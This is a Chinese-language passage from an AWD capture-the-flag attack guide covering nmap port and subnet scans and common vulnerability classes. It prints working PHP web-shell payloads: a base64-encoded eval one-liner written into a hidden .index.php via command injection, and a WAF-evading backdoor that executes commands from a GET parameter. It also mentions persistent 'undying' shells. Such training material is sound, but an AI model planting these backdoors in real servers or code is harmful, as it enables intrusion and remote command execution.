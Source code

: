 

## 攻击

### <a class="reference-link" name="%E6%9C%8D%E5%8A%A1%E5%8F%91%E7%8E%B0"></a>服务发现

使用nmap对c段或端口进行扫描（看主办方给的靶机情况而定）

#### <a class="reference-link" name="nmap"></a>nmap
<li>知道IP地址扫端口
<pre><code class="hljs css">.\nmap 10.241.180.159 -p1-65535
</code></pre>
</li>
<li>扫C段
<pre><code class="hljs">.\nmap 10.241.180.159/24
</code></pre>
</li>
<li>根据ip列表扫，有一个ip地址列表，将这个保存为一个txt文件，和namp在同一目录下,扫描这个txt内的所有主机
<pre><code class="hljs css">nmap -iL ip.txt
</code></pre>
</li>
nmap扫描完毕后，win按住alt键

[![](https://p0.ssl.qhimg.com/t01d10881e9d5c1df6f.png)](https://p0.ssl.qhimg.com/t01d10881e9d5c1df6f.png)

只提取端口

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

awd中存在较多的主要是以下几种漏洞
- 命令执行，直接cat /flag，尽量混淆流量也可以通过命令执行执行上传一句话木马，直接用py脚本批量传，美哉
```
echo PD9waHAgZXZhbCgkX1JFUVVFU1RbJzEnXSk7ID8+Cg==|base64 -d&gt;&gt;.index.php

# &lt;?php eval($_REQUEST['1']); ?&gt;
```
- 文件读取，直接读取或者是伪协议方式读取flag
- sql注入，数据库中有flag，或者sql注入写shell
- 文件上传，绕过黑白名单上传一句话，小马拉大马或者不死马
- awd时间一般较短，所以漏洞不会太深，比较容易发现，有的会直接放几个明显的后门，考验选手们的手速
### <a class="reference-link" name="%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81"></a>权限维持

#### <a class="reference-link" name="%E8%BF%87%E7%9B%BE%E4%B8%80%E5%8F%A5%E8%AF%9D"></a>过盾一句话

```
&lt;?php $a=1;$b="a=".$_GET['a'];parse_str($b);print_r(`$a`)?&gt;
```
